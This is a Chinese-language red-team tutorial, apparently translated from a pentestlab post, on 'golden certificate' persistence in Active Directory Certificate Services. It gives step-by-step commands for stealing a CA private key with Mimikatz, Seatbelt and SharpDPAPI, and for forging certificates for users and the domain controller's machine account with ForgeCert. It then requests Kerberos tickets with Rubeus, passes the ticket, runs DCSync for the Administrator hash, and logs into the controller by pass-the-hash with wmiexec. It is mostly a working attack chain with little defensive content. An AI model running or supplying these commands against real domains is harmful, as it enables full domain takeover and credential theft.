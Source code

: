 ## 利用黄金证书劫持域控
域控渗透最常见的域持久性技术之一是黄金票据攻击，它涉及使用“ krbtgt ”的 NTLM 哈希创建 kerberos 票证。“ 帐户。但是在部署了 Active Directory 认证服务 (AD CS) 的服务器的域中，可能会在发生入侵时被滥用以实现域持久性。通过窃取 CA 证书的私钥，红队可以伪造和签署证书以用于身份验证。在部署 Active Directory 证书服务 (AD CS) 期间，域中默认启用基于证书的身份验证。因此，需要将这些系统视为第 0 层资产并得到适当保护。

通过黄金证书执行域持久化需要以下步骤：
1.	证书提取 (CA)
2.	伪造CA证书
3.	获取 Kerberos 票证（DC 的机器账户）
4.	执行pass票证

# 证书提取
CA 证书和私钥存储在 CA 服务器中。使用与系统的 RDP 连接，可以使用“ certsrv.msc ”的备份功能检索这些信息。

![](/img/利用黄金证书劫持域控/1.png)

<center>
certsrv – 备份 CA
</center>
在证书颁发机构备份向导中，私钥和 CA 证书都可以导出到指定位置。

![](/img/利用黄金证书劫持域控/2.png)

<center>
certsrv – 私钥和备份位置
</center>
CA 证书将导出为 p12 文件（个人信息交换）。

![](/img/利用黄金证书劫持域控/3.png)

<center>
certsrv – 提取的 CA
</center>
但是，还有多种其他方法可用于从服务器提取 CA 证书和私钥。使用参数“ Certificates ”执行Seatbelt可以枚举存储的CA证书。

    Seatbelt.exe Certificates

![](/img/利用黄金证书劫持域控/4.png)

<center>
Seatbelt – 本地机器
</center>
Mimikatz 还可以与加密存储进行交互，以检索和导出证书和私钥。修补“ CryptoAPI ”和“ KeyIso ”不可导出的密钥将可以从许多密钥提供程序导出。

    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export

![](/img/利用黄金证书劫持域控/5.png)

<center>
Mimikatz – 导出证书
</center> 


![](/img/利用黄金证书劫持域控/6.png)

<center>
Mimikatz - CA 证书
</center>

证书将以 .DER 和 .PFX 格式提取到磁盘上。

![](/img/利用黄金证书劫持域控/7.png)


SharpDPAPI也可用于提取证书。执行“ certificates /machine ”命令将使用机器证书存储来提取可解密的机器证书和私钥。

    SharpDPAPI.exe certificates /machine

![](/img/利用黄金证书劫持域控/8.png)

<center>
SharpDPAPI – 机器证书
</center>

私钥和证书都将显示在控制台中。

![](/img/利用黄金证书劫持域控/9.png)

<center>
SharpDPAPI - CA 证书
</center>
 
提取的私钥和证书可以写入扩展名为 .PEM 的文件中。执行以下命令可以将证书转换为可用格式，如 .PFX 允许用于使用 Rubeus 进行身份验证。

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

![](/img/利用黄金证书劫持域控/10.png)

<center>
将证书转换为 PFX
</center> 

# 伪造CA证书
Mimikatz 可用于通过使用“ crypto::scauth ”模块来伪造和签署证书。该模块最初是为创建智能卡身份验证客户端证书而开发的。所需的参数是证书颁发机构的主题名称和将创建证书的用户的用户主体名称。可选项，“ /pfx ”参数可用于定义将要创建的证书的文件名。

    crypto::scauth /caname:ca /upn:pentestlab@purple.lab

![](/img/利用黄金证书劫持域控/11.png)

<center>
伪造CA证书——Mimikatz
</center> 

或者，ForgeCert是由Lee Christensen在 C# 中开发的，它使红队能够使用 CA 证书为任何域用户伪造证书进行身份验证。该工具可以注入内存中执行，并将文件写入磁盘。执行以下命令将为“ pentestlab ”用户创建一个假证书，该证书将由 CA 证书的私钥签名。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName pentestlab@purple.lab --NewCertPath localadmin.pfx --NewCertPassword Password123

![](/img/利用黄金证书劫持域控/12.png)

<center>
伪造CA证书-域用户
</center> 

应该注意的是，必须为域上的活动用户创建证书。因此它不能用于“ krbtgt ”帐户。伪造证书的有效期为1年，只要CA证书有效（一般为5年）就有效。除了域用户帐户外，机器帐户也可用于域持久性，因为可以使用 DCSync、Pass the Ticket 和 S4U2Self 等技术。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@purple.lab --NewCertPath DC$.pfx --NewCertPassword Password123

![](/img/利用黄金证书劫持域控/13.png)

<center>
伪造证书-机台账
</center> 

# Kerberos 票证
可以使用伪造的证书从密钥分发中心 (KDC) 请求 Kerberos 票证以进行身份验证。

    Rubeus.exe asktgt /user:pentestlab /certificate:localadmin.pfx /password:Password123

![](/img/利用黄金证书劫持域控/14.png)

<center>
Rubeus – Kerberos 票证 
</center>  
 

![](/img/利用黄金证书劫持域控/15.png)

<center>
Rubeus - 域用户票
</center>  

# 通过票证
可以从域中的任何主机使用属于域控制器的机器帐户的证书来请求 Kerberos 票证。执行以下命令将检索 base64 格式的票证。

    Rubeus.exe asktgt /user:DC$ /certificate:DC$.pfx /password:Password123

![](/img/利用黄金证书劫持域控/16.png)

<center>
Rubeus - 请求 DC 机器帐户的票证 
</center> 


![](/img/利用黄金证书劫持域控/17.png)

<center>
DC 机器帐户 Base64 票证 
</center> 

base64 票证可以被解码并写入扩展名为 .kirbi 的文件中。

    echo "<base64>" | base64 -d > dc$.kirbi

![](/img/利用黄金证书劫持域控/18.png)

<center>
将 Base64 票证转换为 Kirby
</center>  

票证可以传输到任何 Windows 主机，并使用传递票证技术导入任何用户会话。

    Rubeus.exe ptt /ticket:dc$.kirbi

![](/img/利用黄金证书劫持域控/19.png)

<center>
Rubus – 通过票证
</center>

由于票据属于域控制器的计算机帐户，因此可以执行提升的活动，例如 DCSync。从当前执行 Mimikatz 并运行以下命令的会话中，将检索作为域管理员帐户的用户 Administrator 的 NTLM 哈希。

    lsadump::dcsync /user:Administrator

![](/img/利用黄金证书劫持域控/20.png)

<center>
Mimikatz – DCSync
</center>

散列可用于通过散列技术或通过 WMI 连接建立对域控制器的访问。

    python3 wmiexec.py -hashes :58a478135a93ac3bf058a5ea0e8fdb71 Administrator@10.0.0.1

![](/img/利用黄金证书劫持域控/21.png)

<center>
WMI 连接 - 域控制器
</center> 


参考链接：
[https://github.com/GhostPack/Seatbelt]
[https://github.com/GhostPack/SharpDPAPI]
[https://github.com/GhostPack/ForgeCert]
[https://pentestlab.blog/2021/11/15/golden-certificate/]
